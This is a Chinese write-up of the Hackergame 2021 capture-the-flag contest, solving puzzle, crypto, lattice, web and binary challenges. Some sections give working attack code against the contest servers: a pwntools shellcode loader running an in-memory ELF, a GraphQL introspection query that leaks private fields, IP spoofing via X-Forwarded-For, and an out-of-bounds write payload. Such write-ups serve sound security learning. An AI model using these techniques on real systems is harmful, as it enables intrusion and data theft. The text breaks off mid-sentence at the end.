# Writeup

本 Writeup 将同时发布于[我的博客](https://mcfx.us/posts/2021-10-30-hackergame-2021-writeup/)，公式在 GitHub 大概率无法显示，建议移步博客阅读。

## 吐槽

> 古道热肠的出题人迅捷而准确地定位到了选手 M 口中的 Writeup 代码。定睛一看，其中充斥着各样精妙繁复的宏定义与模板类（此等混淆传闻只曾在 OI 竞赛中出现过）。

并没有精妙繁复的宏定义与模板类（（
另外这个板子于今年加了一些功能，它变得更长了（（

今年的 Writeup 代码没有一题出现了这个板子！

## 签到

发现 url 参数是时间戳，改成当前时间即可获取 flag。

## 进制十六——参上

手打出左边的十六进制，转成普通文本即可获取 flag。

## 去吧！追寻自由的电波

无线电中字母是读法是 [NATO phonetic alphabet](https://en.wikipedia.org/wiki/NATO_phonetic_alphabet)。

`radio.mp3` 经过了变调的快放，需要慢放来解决。但是现在的播放器都比较高级，默认都是不变调的慢放了。最后只能把 mp3 先转成 wav，然后改文件头来直接慢放。



0xBB80（48000） 改成了 0x2EE0（12000）

## 猫咪问答 Pro Max

1. 查看 [Web Archive](https://web.archive.org/web/20170515053637/http://sec.ustc.edu.cn/doku.php/codes)
2. 在 [LUG 主页](https://lug.ustc.edu.cn/wiki/intro/) 看到有 17、18、19、20 四次，但是提交不对，猜测还有 21 年，于是一共 5 次。
3. [西区图书馆新活动室启用](https://lug.ustc.edu.cn/news/2016/06/new-activity-room-in-west-library/)
4. 搜索到 [pdf](http://sigbovik.org/2021/proceedings.pdf)，发现共 13 个
5. 搜索到 [文档](https://datatracker.ietf.org/doc/html/rfc8962)，第六节中提到是 `/dev/null`

## 卖瓜

经过胡乱尝试，发现放上 $2^{63}=9223372036854775808$ 个 9 斤的瓜时，结果会溢出为 $-9223372036854775808$.

然后再放 $1537228672809129303=(2^{63}+10)/6$ 个 6 斤的瓜，结果就会变成 10 斤。

再重复一遍这个操作，就可以得到 20 斤。

## 透明的文件

根据经验，看出是 [ANSI转义序列](https://zh.wikipedia.org/wiki/ANSI%E8%BD%AC%E4%B9%89%E5%BA%8F%E5%88%97)，进而发现在每个 `[` 前面缺了个 `\033`。

接下来再把空格替换成可显示的字符，就可以跑出来了。

```python
import sys

s = open('transparent.txt', 'r').read()
s = s.replace('[', '\033[').replace(' ', 'O')
sys.stdout.write(s)
```

## 旅行照片

先注意到了远处的港口，然后在有港口的城市里找了一大圈，没能发现。

然后注意到，这个肯德基的外墙是蓝色的，搜索“肯德基 蓝色外墙”得到一个结果：秦皇岛蒂芙尼蓝 kfc。

进一步搜索可以得到他的位置：新奥海底世界海豚馆，在地图上可以看到电话是 `0335-7168800`，而外墙上的字是“海豚馆”。

对于前三个题，可以直接爆破：

```python
import base64, requests
from urllib.parse import quote
from multiprocessing.dummy import Pool
from tqdm import tqdm


def bans(x, y, z, phone, p):
    return base64.b64encode(('1=%s&2=%s&3=%s&4=%s&5=%s' % (x, y, z, phone, quote(p))).encode()).decode()


def tryans(x):
    r = requests.get('http://202.38.93.111:10055/%s.txt' % x)
    if r.status_code != 404:
        print(r.text)


anss = []
for i in 'abcdefgh':
    for j in 'abcde':
        for k in range(30):
            anss.append(bans(i, j, k, '0335-7168800', '海豚馆'))

for x in anss:
    if x == 'MT1iJjI9ZCYzPTIxJjQ9MDMzNS03MTY4ODAwJjU9JUU2JUI1JUI3JUU4JUIxJTlBJUU5JUE2JTg2':
        print('ok')

p = Pool(20)
list(tqdm(p.imap(tryans, anss), total=len(anss)))
```

## FLAG 助力大红包

看到要传入 ip，惯例试了试 `X-Forward-For`，然后发现可行。于是写了个随机 ip 的程序。

然后经实验，每个 `/8` 只能助力一次，于是改了改程序：

```python
import requests
import random

for a in range(256):
    ip = '%d.0.0.0' % a
    headers = {'X-Forwarded-For': ip}
    r = requests.post('http://202.38.93.111:10888/invite/xxx', data={'ip': ip}, headers=headers)
    print(r.text)
```

## Amnesia

### 轻度失忆

不使用字符串字面量，就可以绕过 `.data` 段的限制。

```c
main() {
  char s[14];
  s[0] = 'H';
  s[1] = 'e';
  s[2] = 'l';
  s[3] = 'l';
  s[4] = 'o';
  s[5] = ',';
  s[6] = ' ';
  s[7] = 'w';
  s[8] = 'o';
  s[9] = 'r';
  s[10] = 'l';
  s[11] = 'd';
  s[12] = '!';
  s[13] = 0;
  puts(s);
}
```

### 记忆清除

这是一个非预期解。

最开始我考虑能不能让程序就从一大堆 0 上面运行过去，然后发现 `0000` 只有在 x86-64 才是有效的指令，于是这条路没了。

然后我研究能不能改段名，或者把 main 放到其他段，等等。然后看到了这个：

```c
__attribute__((section(".plt"))) int main() {}
```

很可惜，程序的入口点 `_start` 还是在 `.text` 段，这么做还是会让程序无法执行。

卡了两天之后，我实在不会了，于是试图绕过删段。我猜测让硬盘空间爆炸，`/tmp/play/seczero.bin` 装不下整个 `.text` 段时，他就会无法正常工作，而实测确实如此：

```c
#include <stdio.h>
__attribute__((section(".text"))) char s[1 << 24] = {0};
int main() { puts("Hello, world!"); }
```

（`1 << 24` 是根据题目环境尝试出来的，刚好可以装下编译出的 binary）

（至于尝试方法，每次乘 2 就行，能装下老 binary + dump 出的段说明也可以装下新的 binary）

## 图之上的信息

搜索到 GraphQL 相关攻击，找到 [一篇文章](https://blog.yeswehack.com/yeswerhackers/how-exploit-graphql-endpoint-bug-bounty/)，按这个来查询：

```
{__schema{queryType{name}mutationType{name}subscriptionType{name}types{...FullType}directives{name description locations args{...InputValue}}}}fragment FullType on __Type{kind name description fields(includeDeprecated:true){name description args{...InputValue}type{...TypeRef}isDeprecated deprecationReason}inputFields{...InputValue}interfaces{...TypeRef}enumValues(includeDeprecated:true){name description isDeprecated deprecationReason}possibleTypes{...TypeRef}}fragment InputValue on __InputValue{name description type{...TypeRef}defaultValue}fragment TypeRef on __Type{kind name ofType{kind name ofType{kind name ofType{kind name ofType{kind name ofType{kind name ofType{kind name ofType{kind name}}}}}}}}
```

得到了所有可用的字段。

最后查询 `{"query":"{ user(id:1) { privateEmail }}"}` 即可得到 flag。

## Easy RSA

### 求出 p

根据 [威尔逊定理](https://zh.wikipedia.org/wiki/%E5%A8%81%E5%B0%94%E9%80%8A%E5%AE%9A%E7%90%86)，可以从大到小倒推出 $y!$，进而得到 $p$。

### 求出 q

根据 `value[-1]` 可以倒推出所有 `value`，然后就可以通过 `value_q` 求出 `q`。

### 最终 exp

```python
from gmpy2 import invert
from Crypto.Util.number import long_to_bytes
import sympy

e = 65537


def get_p():
    x = 11124440021748127159092076861405454814981575144744508857178576572929321435002942998531420985771090167262256877805902135304112271641074498386662361391760451
    y = 11124440021748127159092076861405454814981575144744508857178576572929321435002942998531420985771090167262256877805902135304112271641074498386662361391661439
    t = y + 1
    u = 1
    while t < x:
        u = u * t % x
        t += 1
    u = int(invert(u, x)) * (x - 1) % x
    return sympy.nextprime(u)


def get_q():
    v1 = 80096058210213458444437404275177554701604739094679033012396452382975889905967
    value_q = 5591130088089053683141520294620171646179623062803708281023766040254675625012293743465254007970358536660934858789388093688621793201658889399155357407224541324547522479617669812322262372851929223461622559971534394847970366311206823328200747893961649255426063204482192349202005330622561575868946656570678176047822163692259375233925446556338917358118222905050574458037965803154233167594946713038301249145097770337253930655681648299249481985768272321820718607757023350742647019762122572886601905212830744868048802864679734428398229280780215896045509020793530842541217790352661324630048261329493088812057300480085895399922301827190211956061083460036781018660201163819104150988531352228650991733072010425499238731811243310625701946882701082178190402011133439065106720309788819

    v = [v1]
    for i in range(9):
        v.append(sympy.prevprime(v[-1]))

    n = 1
    phi = 1
    for x in v:
        n *= x
        phi *= x - 1
    q = pow(value_q, invert(e, phi), n)
    return sympy.nextprime(q)


c = 110644875422336073350488613774418819991169603750711465190260581119043921549811353108399064284589038384540018965816137286856268590507418636799746759551009749004176545414118128330198437101472882906564195341277423007542422286760940374859966152871273887950174522820162832774361714668826122465471705166574184367478

p = get_p()
q = get_q()
n = p * q
phi = (p - 1) * (q - 1)
print(c < n)
ans = pow(c, int(invert(e, phi)), n)
assert pow(ans, e, n) == c
print(long_to_bytes(ans))
```

## 加密的 U 盘

猜测改密码不会更改实际使用的密钥，遂如下操作：

```
cp day1.img tmp.img
losetup -fP tmp.img 
cryptsetup open /dev/loop13p1 test2 # 然后输入密码
cp day2.img tmp.img # 直接覆盖了
mount /dev/mapper/test2 /mnt/tmp
cat /mnt/tmp/flag.txt
```

即可得到 flag。

## 赛博厨房

### Level 0

可以把四种情况都写成程序，就可以了。

### Level 1

需要写一个循环来完成。

### Level 2

每个程序运行时，锅里都会被重置，那么只能想办法让 128 个程序中的某一个恰好能做出菜谱。

而菜谱是根据所有程序的 hash 计算的，所以可以随机生成程序然后检查是否成功。

不难计算出成功概率是 $\frac{128}{32^6}\approx 1.2\times 10^{-7}$，在现代计算机上较快能枚举出来。

```js
require('./cybercook_1.js')
function genCode() {
    let res = '', ra = [];
    for (let i = 0; i < 6; i++) {
        let a = parseInt(Math.random() * 32) + 1;
        res += '向右 ' + a + ' 步\n';
        res += '拿起 1 个物品\n';
        res += '向左 ' + a + ' 步\n';
        res += '放下 1 个物品\n';
        ra.push(a - 1);
    }
    return [res, ra];
}
function chk() {
    codes = [];
    lss = [];
    for (let i = 0; i < 128; i++) {
        const [code, ls] = genCode();
        codes.push(code);
        lss.push(ls);
    }
    const vm = CyberCook.nextDay(2, codes)
    rp = vm.info().recipe
    for (let i = 0; i < 128; i++) {
        let flag = true
        for (let j = 0; j < 6; j++)
            flag &= rp[j] == lss[i][j]
        if (flag) return [codes, lss];
    }
    return [0, 0];
}
while (1) {
    const [codes, lss] = chk();
    if (codes != 0) {
        for (let i = 0; i < 128; i++) {
            console.log(i + ' ' + lss[i])
        }
        break;
    }
}
```

枚举完之后，可以调用页面下方的 `debug` 系列函数批量加入程序：

```js
function genCode(s) {
    var res = '';
    for (var i = 0; i < 6; i++) {
        var a = s[i] + 1;
        res += '向右 ' + a + ' 步\n';
        res += '拿起 1 个物品\n';
        res += '向左 ' + a + ' 步\n';
        res += '放下 1 个物品\n';
    }
    return res;
}

var ss = [[1, 8, 31, 27, 7, 13], [7, 12, 21, 14, 27, 23], [10, 21, 31, 5, 2, 12], [26, 2, 24, 8, 17, 5], [11, 3, 4, 21, 17, 14], [29, 28, 22, 6, 24, 0], [28, 6, 22, 31, 0, 12], [2, 7, 18, 21, 22, 28], [24, 24, 21, 5, 22, 7], [1, 12, 19, 29, 12, 31], [31, 21, 27, 25, 6, 9], [19, 15, 30, 24, 23, 2], [28, 12, 25, 11, 7, 1], [27, 1, 18, 15, 24, 14], [10, 14, 6, 13, 25, 20], [0, 21, 20, 10, 25, 9], [5, 26, 19, 12, 6, 18], [4, 13, 8, 5, 5, 15], [18, 9, 18, 8, 11, 7], [8, 2, 24, 15, 1, 3], [17, 13, 2, 19, 1, 28], [8, 7, 24, 31, 15, 16], [9, 31, 9, 25, 12, 2], [19, 7, 9, 1, 20, 8], [25, 2, 21, 13, 10, 30], [13, 29, 22, 4, 29, 24], [14, 24, 20, 19, 5, 10], [27, 9, 30, 28, 23, 11], [25, 2, 1, 5, 9, 11], [24, 13, 17, 4, 19, 0], [9, 16, 11, 27, 28, 24], [26, 26, 22, 9, 26, 20], [16, 11, 19, 23, 16, 17], [4, 22, 31, 0, 31, 27], [4, 11, 25, 11, 18, 27], [6, 13, 11, 6, 3, 10], [25, 14, 28, 6, 17, 6], [19, 2, 4, 6, 6, 30], [31, 9, 12, 10, 28, 20], [4, 29, 12, 18, 13, 13], [1, 15, 5, 30, 18, 27], [25, 10, 8, 20, 6, 13], [28, 12, 0, 12, 25, 31], [24, 14, 11, 20, 13, 2], [13, 4, 24, 5, 27, 30], [28, 6, 25, 25, 26, 14], [30, 14, 29, 17, 26, 6], [1, 24, 7, 10, 5, 2], [9, 16, 8, 14, 8, 25], [13, 20, 11, 21, 10, 21], [6, 3, 24, 18, 27, 10], [23, 23, 30, 2, 15, 16], [28, 8, 12, 21, 25, 17], [1, 9, 10, 31, 6, 0], [7, 8, 30, 13, 5, 26], [15, 30, 13, 28, 2, 20], [1, 2, 25, 30, 22, 7], [2, 24, 7, 3, 6, 26], [14, 8, 4, 29, 31, 14], [4, 4, 31, 19, 12, 31], [25, 7, 31, 29, 2, 23], [29, 19, 5, 27, 5, 23], [23, 22, 5, 30, 22, 11], [3, 23, 4, 28, 10, 5], [28, 8, 16, 6, 1, 29], [21, 24, 14, 19, 15, 10], [24, 22, 16, 12, 9, 20], [15, 29, 12, 27, 26, 13], [24, 28, 9, 11, 10, 19], [28, 1, 19, 30, 31, 6], [25, 18, 21, 20, 16, 3], [13, 21, 15, 18, 19, 26], [4, 5, 27, 18, 28, 31], [18, 23, 4, 4, 12, 13], [16, 0, 16, 17, 30, 15], [29, 14, 15, 23, 30, 27], [6, 4, 8, 2, 0, 4], [28, 15, 30, 14, 11, 12], [29, 4, 18, 15, 11, 19], [15, 5, 22, 11, 19, 3], [9, 1, 10, 11, 26, 15], [22, 11, 0, 22, 14, 24], [29, 23, 19, 18, 14, 10], [14, 0, 20, 16, 11, 11], [28, 7, 12, 17, 5, 15], [4, 27, 19, 6, 24, 26], [5, 6, 19, 7, 22, 17], [30, 9, 25, 10, 13, 8], [8, 7, 2, 22, 24, 20], [4, 12, 20, 16, 4, 27], [27, 10, 27, 14, 6, 30], [25, 14, 30, 8, 28, 24], [4, 4, 9, 1, 22, 30], [12, 20, 15, 30, 26, 9], [19, 9, 26, 29, 2, 11], [22, 21, 26, 18, 22, 12], [11, 29, 8, 10, 1, 28], [15, 1, 2, 17, 22, 5], [28, 24, 6, 7, 8, 18], [8, 0, 21, 3, 24, 14], [28, 21, 23, 7, 30, 11], [29, 11, 11, 11, 17, 25], [1, 29, 14, 20, 7, 14], [2, 15, 31, 0, 3, 19], [2, 28, 30, 17, 16, 12], [12, 29, 31, 18, 24, 28], [11, 8, 18, 28, 15, 6], [18, 24, 23, 20, 22, 28], [4, 31, 14, 21, 17, 10], [17, 15, 9, 17, 12, 4], [18, 4, 23, 16, 3, 0], [6, 13, 8, 14, 19, 27], [25, 5, 16, 29, 6, 0], [5, 4, 6, 10, 22, 10], [2, 15, 18, 4, 8, 29], [24, 20, 17, 23, 23, 31], [22, 29, 10, 14, 20, 27], [2, 29, 0, 10, 16, 23], [7, 22, 21, 25, 9, 6], [14, 30, 30, 11, 30, 1], [3, 27, 8, 24, 0, 31], [1, 8, 11, 17, 7, 6], [10, 31, 5, 28, 5, 30], [28, 16, 11, 2, 20, 19], [21, 5, 29, 0, 11, 29], [31, 8, 26, 22, 14, 25], [28, 29, 13, 27, 5, 20], [31, 31, 21, 18, 24, 19]];
for (i = 0; i < 128; i++)debugSaveProgram('a' + i, genCode(ss[i]));
```

### Level 3

执行题目给出的示例可以发现一个有趣的事情：放下的盘子在程序执行完之后不会被重置。于是我们可以利用盘子传递信息。

而第一个锅的位置是 56 也有很强的提示性：$56=7\times 8$，前面的空位刚好可以用二进制存下每个物品的编号。

但是实际上很难把 56 个空位全都用来存储物品编号。如果不在代码里用临时变量存储当前在处理第几个物品，就需要对这八个物品分别编写代码，每个物品将只有 9 条代码的空间，显然是不够的。而维护了临时变量，就不能把 56 个空位都用来存编号了。

我最后选择的方案是存储 7 个物品，每个物品用 7 bit 存储编号，再用 1 bit 存储是否被处理了。每次找到第一个没有被处理的物品，然后按照编号拿到一定个数的物品，再循环到那个物品的位置，拿起来放进锅里。而最后剩下的那个物品可以类似上一问，爆破 hash。

```js
const fs = require('fs');

require('./cybercook_1.js')

for (let T = 200; ; T++) {
    const codes = []

    for (let i = 0; i < 56; i++) {
        const code = '向下 1 步\n向右 ' + i + ' 步\n放下盘子'
        const code0 = '向下 1 步\n放下盘子'
        codes.push(i ? code : code0);
    }

    const code = fs.readFileSync("q4_5.txt").toString('utf-8')
    codes.push(code.replace('NNN', T.toString()))

    const vm = CyberCook.nextDay(3, codes)
    if (vm.info().recipe[0] == 127) {
        console.log(T);
        break;
    }
}
```

```js
debugDeleteProgram('示例 1')
debugDeleteProgram('示例 2')
debugDeleteProgram('示例 3')
for (let i = 0; i < 56; i++) {
    const code = '向下 1 步\n向右 ' + i + ' 步\n放下盘子'
    const code0 = '向下 1 步\n放下盘子'
    debugSaveProgram('bin' + i, i ? code : code0);
}

let code = `向右 602 步
拿起 1 个物品
向下 1 步
放下 1 个物品
向上 1 步
拿起 7 个物品
向下 1 步
向左 79 步
放下 1 个物品
向左 8 步
放下 1 个物品
如果手上的物品大于等于 1 向上跳转 2 行
拿起 1 个物品
如果手上的物品大于等于 1 向下跳转 3 行
向右 8 步
如果手上的物品大于等于 0 向上跳转 3 行
向上 1 步
放下 1 个物品
拿起 127 个物品
向下 1 步
向右 1 步
放下 64 个物品
拿起 64 个物品
向右 1 步
放下 32 个物品
拿起 32 个物品
向右 1 步
放下 16 个物品
拿起 16 个物品
向右 1 步
放下 8 个物品
拿起 8 个物品
向右 1 步
放下 4 个物品
拿起 4 个物品
向右 1 步
放下 2 个物品
拿起 2 个物品
向右 1 步
放下 1 个物品
拿起 1 个物品
向左 200 步
向上 1 步
如果手上的物品大于等于 1 向下跳转 2 行
如果手上的物品大于等于 0 向下跳转 4 行
放下 1 个物品
向右 1 步
如果手上的物品大于等于 0 向上跳转 4 行
拿起 1 个物品
向右 200 步
向下 1 步
放下 1 个物品
向左 200 步
如果手上的物品大于等于 0 向上跳转 41 行`;

debugSaveProgram('final', code)

debugNextDay()
const recipe = debugGetState().recipe;
for (let i = 1; i < 8; i++) {
    debugRunProgram(app.programs[i * 8 - 8]);
    for (let j = 0; j < 7; j++) {
        if (recipe[i] >> j & 1) debugRunProgram(app.programs[i * 8 - 8 + (7 - j)]);
    }
}
debugRunProgram(app.programs[56]);
```

## 灯，等灯等灯

在某个位置点一次，会让周围的一些位置加上一个固定的数。而最后我们需要让整个局面是指定值。

### Level 0

没有不能点的位置，那么只需要解一个线性方程组。

代码包含在后两关中，就不单独提供了。

### Level 1 & 2

考虑构造一个格，其中有每个灯造成的影响的向量，还有所有形如 $\dots,0,0,256,0,0,\dots$ 这样的向量，那么题目实际就是要在这个格上求一个 CVP（Closest vector problem）问题的解。

我最常用的求 CVP 的近似解的办法是，给原来每个向量后面加个 0，然后再加个新向量，前面的位置是欲求 CVP 的向量，最后是一个很大的常数。给这个新的格跑一遍 LLL，结果中最后是大常数的那一行，就是我们想要的答案。这个做法在本题跑的很好。

### 代码

此代码在 Level 2 拿到了 174 的纪录。

将 `.LLL()` 改成 `.BKZ()` 可以在 Level 1 拿到 47 的纪录。

```python
from sage.all import *
import sys, requests

target = [
    [189, 189, 189, 189, 189, 33, 33, 33, 189, 189, 189, 189],
    [189, 189, 189, 33, 33, 33, 189, 33, 44, 189, 189, 189],
    [189, 189, 189, 189, 189, 33, 33, 33, 33, 189, 189, 189],
    [189, 189, 189, 189, 189, 33, 189, 33, 33, 189, 189, 189],
    [189, 189, 189, 33, 33, 189, 189, 33, 33, 33, 189, 189],
    [189, 134, 33, 33, 189, 189, 189, 189, 33, 33, 189, 189],
    [189, 144, 33, 33, 189, 189, 189, 189, 33, 189, 189, 189],
    [189, 142, 33, 33, 189, 189, 189, 189, 33, 33, 33, 189],
    [189, 100, 142, 33, 189, 189, 189, 189, 33, 33, 33, 189],
    [189, 142, 142, 189, 189, 189, 189, 189, 189, 33, 189, 189],
    [189, 59, 142, 33, 189, 189, 189, 189, 33, 189, 189, 189],
    [189, 189, 33, 33, 189, 189, 189, 189, 189, 189, 189, 189],
]


def level01_val(i, j, x, y):
    if (x == i or y == j):
        return 3 - (abs(x - i) + abs(y - j))
    return 0


def level2_val(i, j, x, y):
    return [31, 63, 127][max(abs(x - i), abs(y - j))]


levels = [
    (level01_val, '''
............
............
............
............
............
............
............
............
............
............
............
............
'''),
    (level01_val, '''
............
............
..X.X.......
..XXX.......
..X.X.......
............
.......XXX..
.......X....
.......X.X..
.......XXX..
............
............
'''),
    (level2_val, '''
............
............
..X.X...XX..
..X.X...X...
..XXX..XX...
............
............
..XXX..XXX..
...X...X....
...X...XXX..
............
............
''')
]


def id(x, y): return x * 12 + y


level_id = int(sys.argv[1])
ban = list(map(lambda x: [y == 'X'for y in x], levels[level_id][1].split()))

# 准备矩阵系数
m = []
free = []
for i in range(12):
    for j in range(12):
        if ban[i][j]:
            continue
        free.append((i, j))
        t = [0] * 144
        for x in range(i - 2, i + 3):
            for y in range(j - 2, j + 3):
                if (0 <= x < 12) and (0 <= y < 12):
                    t[id(x, y)] = levels[level_id][0](i, j, x, y)
        m.append(t + [0])
for i in range(144):
    m.append([(i == j) * 256 for j in range(144)] + [0])
t = []
for i in range(12):
    for j in range(12):
        t.append(target[i][j])

C = 256
m.append([-x for x in t] + [C])

n = len(m)
print('pre ok')
m2 = Matrix(m).LLL()
print('lll ok')

# 找到 CVP 的答案
for i in range(n):
    if m2[i][144]:
        for j in range(144):
            m[-1][j] = m2[i][j] - m[-1][j]
        print(sum(abs(m2[i][j]) for j in range(144)))
        break

# 跑高消求解
s = []
for i in range(144):
    t = []
    for j in range(len(free)):
        t.append(m[j][i])
    t.append(m[-1][i] % 256)
    s.append(t)

for i in range(len(free)):
    for j in range(i + 1, 144):
        while s[j][i]:
            t = s[i][i] // s[j][i]
            for k in range(len(free) + 1):
                s[i][k], s[j][k] = s[j][k], (s[i][k] - s[j][k] * t) % 256

for i in range(len(free), 144):
    assert s[i][len(free)] == 0

ans = [0] * len(free)
for i in range(len(free) - 1, -1, -1):
    t = s[i][len(free)]
    for j in range(i + 1, len(free)):
        t = (t - ans[j] * s[i][j]) % 256
    for j in range(256):
        if j * s[i][i] % 256 == t:
            ans[i] = j

# 提交答案
sol = [[0] * 12 for _ in range(12)]
for i, (x, y) in enumerate(free):
    sol[x][y] = ans[i]
print(sol)

data = {
    'level': level_id,
    'solution': str(sol),
}

headers = {'Cookie': 'xxx'}
r = requests.post('http://202.38.93.111:12768/submit', headers=headers, data=data)
print(r.text)
```

## 只读文件系统

我们可以上传一段 shellcode 上去执行，而目标是使当前程序的可执行文件和 hello 相同。

整个文件系统里没有可写的地方，所以必须在内存中完成。我曾经看过（理论上也不难搜索到）[In-Memory-Only ELF Execution (Without tmpfs)](https://magisterquis.github.io/2018/03/31/in-memory-only-elf-execution.html)，正适合用来做这个事情。然而他最后需要 exec `/proc` 目录下的文件，在这题是做不到的。

经过一番搜索，有一个 `fexecve` 可以直接执行某个 fd 对应的文件，而他的底层实现是 `execveat` 系统调用，这样就绕过了 `/proc` 的限制。

### 代码

#### code.c

```c
#include "stdint.h"
#include <fcntl.h>
#include <stdint.h>
#include <sys/mman.h>

int _memfd_create(const char *name, unsigned int flags);
size_t _write(int fd, const void *buf, size_t count);
int _execve(const char *pathname, char *const argv[], char *const envp[]);
int _execveat(int dfd, const char *pathname, char *const argv[],
              char *const envp[], int flags);

int main() {
#include "hello_file.c"
  int fd = _memfd_create("", 1);
  _write(fd, s, 16744);
  uint64_t path = 0;
  char *argv[2];
  char *envp[1];
  argv[0] = (char *)&path;
  argv[1] = 0;
  envp[0] = 0;
  _execveat(fd, (char *)&path, argv, envp, 0x1000);
}
```

#### syscall.S

```asm
.intel_syntax noprefix
.text
    .globl _memfd_create
    .globl _write
    .globl _execve
    .globl _execveat

    syscall:
        mov r10,rcx
        syscall
        ret
    _write:
        mov eax,1
        jmp syscall
    _memfd_create:
        mov eax,319
        jmp syscall
    _execve:
        mov eax,59
        jmp syscall
    _execveat:
        mov eax,322
        jmp syscall
```

#### payload.py

```python
from pwn import *
import os

context.arch = 'amd64'

# 首先 0x1000 是装下第二步的文件的，需要多读一些然后再次运行
payload = shellcraft.amd64.linux.mmap_rwx(size=0x10000, address=0x13370000)
payload += shellcraft.amd64.linux.readn(0, 0x13370000, 0x10000)
payload += 'push 0x13370000\npop rax\njmp rax'
payload = asm(payload)

# 将 hello 生成到数组中
s = open('hello', 'rb').read()
n = len(s) // 8
r = 'uint64_t s[%d];' % n
for i in range(n):
    r += 's[%d]=%dull;' % (i, int.from_bytes(s[i * 8:i * 8 + 8], 'little'))
open('hello_file.c', 'w').write(r)

# 编译得到第二步的文件
os.system('gcc code.c syscall.S -o code -Os')

# 得到第二步的 payload
elf_payload = ELF('code')
main = elf_payload.functions['main']
payload_exec = elf_payload.read(main.address, main.size + 1000)

r = remote('202.38.93.111', 10106)
r.sendlineafter('Please input your token: ', 'xxx')
r.recvuntil('Checking...\n')
r.send(payload.ljust(0x1000, b'\0'))
r.send(payload_exec.ljust(0x10000, b'\0'))
r.interactive()
```

## 一石二鸟

查看 `main.hs`，可以看到程序会把 vector 里的一个位置改掉，然后判断有多少个位置非 0。

输入一些非常巨大的数，程序会 Segmentation fault，于是可以判断有越界写。

调试可以发现，造成 Segfault 的指令是下面这个 mov。



而此时的寄存器值如图所示，rax 正是输入的值，rcx 是输入的下标。



于是可以得到，rbx+10h 处是 vector 存数据的位置。而 rbp+10h 则有一个指向 vector 的指针。经过多次调试，rbx 和 rbp 均不会改变，于是可以直接将这个指向 vector 的指针改掉，这题就完成了。

Payload 是 `126734 283468912456`，其中 $126734=(\text{rbp}-\text{rbx})/8$，$283468912456=\text{0x4200105748}$。（把 vector 结构前移了 16 字节）

### 一些小问题

这个 payload 在远程打不通，换了几台机器测试，最终发现 rbx 可能不同。将 `126734` 改成 `126732` 就可以打通了。

rbx+8 处看起来存着 vector 的长度，但是修改他并没有用，至于具体原因就不知道了。

## Micro World

IDA 打开看到 MEIPASS 的字样，可知是 PyInstaller 打包的程序。使用 pyinstxtractor 解包，再用 uncompyle6 反编译主程序 2.pyc，可得到源码。源码中部分 `else` 块会有问题，需要手动修复才能运行。

阅读源码可知，该程序模拟了一堆粒子的运动，粒子会匀速直线运动，以及完全弹性碰撞。

由于是完全弹性的，只需要把速度取反，即可还原状态。（不知道是写错了还是咋回事，有些点看起来位置不太对）



## 卷王与野生的 GPA

IDA 打开 elf 文件，main 函数非常简单：



其中 getkey 在检查“经典的作弊码”：上上下下左右左右 BABA；trickplay 大概在等待用户扔球；throw 是扔球动画；fail 则显示失败。

除此之外，还能看到一个可疑的函数，decrypt，其中解密了 flag；以及 main 下面有一段没被调用的代码。对这段代码建函数并 F5 可以看出他正是显示 flag 的代码。

将 main 函数 patch 掉，最后依次调用这两个函数，就能显示出 flag：

